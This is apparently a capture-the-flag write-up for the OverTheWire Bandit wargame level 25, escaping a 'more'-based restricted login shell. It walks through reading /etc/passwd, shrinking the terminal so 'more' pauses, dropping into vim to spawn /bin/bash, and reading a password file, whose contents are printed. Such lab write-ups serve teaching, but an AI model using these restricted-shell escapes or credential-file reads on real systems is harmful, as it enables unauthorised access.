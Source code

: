 # Level 25

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

## Solution

```bash
$ ssh bandit25@bandit.labs.overthewire.org -p 2220
$ bandit25@bandit:~$ cat /etc/passwd | grep "bandit26"
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
$ bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

I googled this bit, but I needed to focus on the fact that the shell is not `/bin/bash `& this `showtext` shell is using `more`. 

Show with `more`, we need to limit the window size which triggers `more`.

After resizing the window and then running ssh I get:

```bash
bandit25@bandit:~$ ssh bandit26@localhost -i bandit26.sshkey
Could not create directory '/home/bandit25/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:98UL0ZWr85496EtCRkKlo20X3OPnyPSB5tB5RPbhczc.
Are you sure you want to continue connecting (yes/no)?
```

and then:

```bash
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
```

Now I can use `vim` to set the shell back to `/bin/bash` by pressing `v` & then:

```bash
:set shell=/bin/bash
:shell
bandit26@bandit:~$
```

To restart from bandit26 I've grabbed the password:

```bash
$ bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```



